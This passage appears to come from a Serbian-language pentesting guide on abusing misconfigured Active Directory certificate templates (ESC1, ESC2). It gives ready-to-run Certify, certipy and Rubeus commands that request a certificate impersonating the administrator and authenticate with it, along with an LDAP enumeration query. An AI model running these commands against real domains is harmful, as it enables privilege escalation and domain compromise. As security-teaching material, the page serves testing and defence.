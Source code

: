 ### Zloupotreba

Da biste **pronašli ranjive šablone sertifikata** možete pokrenuti:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```

Da biste **zloupotrebili ovu ranjivost kako biste se predstavili kao administrator**, možete pokrenuti:

```bash
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```

Zatim možete pretvoriti generisani **sertifikat u `.pfx`** format i koristiti ga za **autentifikaciju pomoću Rubeusa ili certipy** ponovo:

```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```

Windows binarni fajlovi "Certreq.exe" i "Certutil.exe" mogu se koristiti za generisanje PFX fajla: https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee

Enumeracija šablona sertifikata unutar konfiguracione šeme AD Forest-a, posebno onih koji ne zahtevaju odobrenje ili potpis, koji poseduju Client Authentication ili Smart Card Logon EKU, i sa omogućenom zastavicom `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`, može se izvršiti pokretanjem sledećeg LDAP upita:

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))
```

## Pogrešno konfigurisani šabloni sertifikata - ESC2

### Objašnjenje

Drugi zloupotrebljeni scenario je varijacija prvog:

1. Prava za upisivanje su dodeljena korisnicima sa niskim privilegijama od strane Enterprise CA.
2. Onemogućen je zahtev za odobrenje menadžera.
3. Izostavljen je zahtev za ovlašćenim potpisima.
4. Prekomerno dozvoljavajući bezbednosni deskriptor na šablonu sertifikata dodeljuje prava za upisivanje sertifikata korisnicima sa niskim privilegijama.
5. **Šablon sertifikata je definisan da uključuje Any Purpose EKU ili nema EKU.**

Any Purpose EKU dozvoljava da se sertifikat dobije od strane napadača za **bilo koju svrhu**, uključujući autentifikaciju klijenta, autentifikaciju servera, potpisivanje koda, itd. Ista **tehnika koja se koristi za ESC3** može se primeniti i za iskorišćavanje ovog scenarija.
